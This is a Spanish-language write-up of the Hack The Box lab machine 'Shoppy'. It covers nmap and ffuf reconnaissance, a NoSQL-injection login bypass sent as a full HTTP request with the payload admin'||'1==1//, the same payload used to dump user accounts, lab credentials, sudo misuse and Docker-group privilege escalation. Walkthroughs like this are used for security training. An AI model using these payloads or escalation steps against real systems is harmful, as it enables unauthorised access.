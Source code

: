 ```yaml
---
description: Linux · Easy
---
```


# ✅ Shoppy

## Reconocimiento

```bash
nmap -sC -sV -oA ./nmap/shoppy 10.10.11.180
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 18:25 EST
Nmap scan report for 10.10.11.180
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds

```

Se descubrió dos puertos el `22/tcp` que por default es SSH y el puerto `80/tcp` que es HTTP,el servidor corre con Nginx 1.23.1.Tambien aparece `shoppy.htb`

Debemos agregar la URL en `/etc/hosts`

## Enumeracion

### Servidor Web

Ahora tenemos que ir al sitio web y enumerar con fuff.

`http://shoppy.htb`.

```bash
 ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 40ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 54ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 59ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 58ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 40ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 30ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 32ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 31ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 43ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 46ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1031 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

```

Se descubrió dos URL interesantes `http://shoppy.htb/login y http://shoppy.htb/exports`

## Acceder

### Acceder como administrador

Ahora en la URL login.

Si usamos una comillas simple (') en el campo de nombre de usuario, recibimos un 504 Gateway Time-out. Tenemos nuestro primer mensaje de error.El mensaje de error muestra la URL http://shoppy.htb/login?error=WrongCredentialsProbemos diferentes cargas útiles en el formulario de inicio de sesión.La carga útil adecuada para eludir el mecanismo de inicio de sesión a través de BurpSuite.

```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin'||'1==1//&password=admin

```

Después de iniciar sesión, somos redirigidos a `http://shoppy.htb/admin`

Desde esta página, podemos buscar usuarios. Podemos buscar al usuario admin y recibir la contraseña de esta cuenta de usuario. Hemos intentado descifrar esta contraseña, pero parece que no se puede descifrar. Después de completar la carga útil `'||'1==1//` en la barra de búsqueda, muestra todas las cuentas de usuario existentes en la base de datos.Intentemos descifrar la contraseña de la cuenta de usuario john.La contraseña encontrada es `remembermethisway.` Con esta contraseña se puede  intentar iniciar sesión a través de SSH con esta contraseña. Después de enumerar alrededor, encontramos un subdominio adicional `http://mattermost.shoppy.htb`.Después de mirar alrededor, encontramos las credenciales para la cuenta de usuario `jaeger` con la contraseña `Sh0ppyBest@pp!`

## SSH acceder como jaeger <a href="#ssh-access-as-jaeger" id="ssh-access-as-jaeger"></a>

Con el usuario y la contraseña encontrada antes podemos acceder a la maquina con SSH.

## Movimiento lateral

Esta cuenta de usuario tiene permiso para ejecutar /home/deploy/password-manager en nombre de la cuenta de usuario deploy.Después de ejecutar este programa, solicita una contraseña maestra. Como podemos ejecutar el programa, también podemos intentar leerlo.Parece que la contraseña es: Sample

## Escalada de privilegios

&#x20;Ahora tenemos las credenciales para la cuenta de usuario deploy. Podemos cambiar a esta cuenta de usuario y ejecutar linpeas.sh.

## Explotación de Docker

La cuenta de usuario deploy está en el grupo docker. A través de [GTFObins](https://gtfobins.github.io/gtfobins/docker/) podemos encontrar la ruta a la escalada de privilegios.
